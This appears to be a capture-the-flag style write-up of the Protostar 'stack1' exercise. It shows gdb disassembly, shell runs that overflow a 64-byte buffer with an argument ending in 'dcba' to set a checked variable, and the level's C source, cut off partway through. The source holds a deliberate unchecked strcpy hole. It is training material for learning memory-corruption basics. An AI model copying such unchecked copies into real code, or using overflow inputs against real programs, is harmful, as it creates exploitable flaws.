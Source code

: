 ```gdb
0x0804849b <main+55>:   lea    eax,[esp+0x1c]
0x0804849f <main+59>:   mov    DWORD PTR [esp],eax
0x080484a2 <main+62>:   call   0x8048368 <strcpy@plt>
0x080484a7 <main+67>:   mov    eax,DWORD PTR [esp+0x5c]
0x080484ab <main+71>:   cmp    eax,0x61626364
0x080484b0 <main+76>:   jne    0x80484c0 <main+92>
0x080484b2 <main+78>:   mov    DWORD PTR [esp],0x80485bc
0x080484b9 <main+85>:   call   0x8048398 <puts@plt>
0x080484be <main+90>:   jmp    0x80484d5 <main+113>
0x080484c0 <main+92>:   mov    edx,DWORD PTR [esp+0x5c]
0x080484c4 <main+96>:   mov    eax,0x80485f3
0x080484c9 <main+101>:  mov    DWORD PTR [esp+0x4],edx
0x080484cd <main+105>:  mov    DWORD PTR [esp],eax
0x080484d0 <main+108>:  call   0x8048378 <printf@plt>
0x080484d5 <main+113>:  leave
0x080484d6 <main+114>:  ret
End of assembler dump.
```

## Idea and Attack process

We first run the program with a random guess to find out the output of the program.

```shell
./stack1 123
>>>Try again, you got 0x00000000
```

As expected there is a variable assigned to 0 which we must modify and it is likely to be below the stack. Let's try to change it with 64char and 4char after.

```shell
./stack1 12345678901234567890123456789012345678901234567890123456789012341234
>>>Try again, you got 0x34333231
```

Here we see that the modification to the variable is in the reversed order of the argument we pass in. Let's try to now input the cmp value. We reference the ASCII table to obtain the values needed.

```shell
./stack1 1234567890123456789012345678901234567890123456789012345678901234dcba
>>>you have correctly got the variable to the right value
```

## Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
```
